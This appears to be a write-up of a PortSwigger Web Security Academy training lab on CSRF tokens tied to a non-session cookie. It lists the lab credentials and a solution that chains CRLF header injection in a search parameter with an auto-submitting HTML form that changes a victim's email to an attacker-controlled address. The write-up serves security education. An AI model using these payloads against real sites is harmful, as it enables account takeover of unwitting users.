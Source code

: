 This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:
- wiener:peter
- carlos:montoya

# Solution

Exploit /search to Set-Cookie
```http
GET /?search=test%0d%0aSet-Cookie:%20csrfKey=KEY%3b%20SameSite=None HTTP/2
Host: 0ae400b90394293180c40db000050085.web-security-academy.net
```

Response
```http
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrfKey=KEY; SameSite=None; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3460
```

```html
<form id="autosubmit" action="https://0ae400b90394293180c40db000050085.web-security-academy.net/my-account/change-email" enctype="application/x-www-form-urlencoded" method="POST">
 <input name="email" type="hidden" value="some-other-email@attacker.com" />
 <input required="" type="hidden" name="csrf" value="ViBs8xdXzUOQGwvXmmN2XDsfsL2UhJVz">
 <input type="submit" value="Submit Request" />
</form>

<img src="https://0ae400b90394293180c40db000050085.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=Sv4rf3KN38q4O0bzYKsuHPkiQUlFDwH1%3b%20SameSite=None" onerror="document.forms[0].submit()">
```
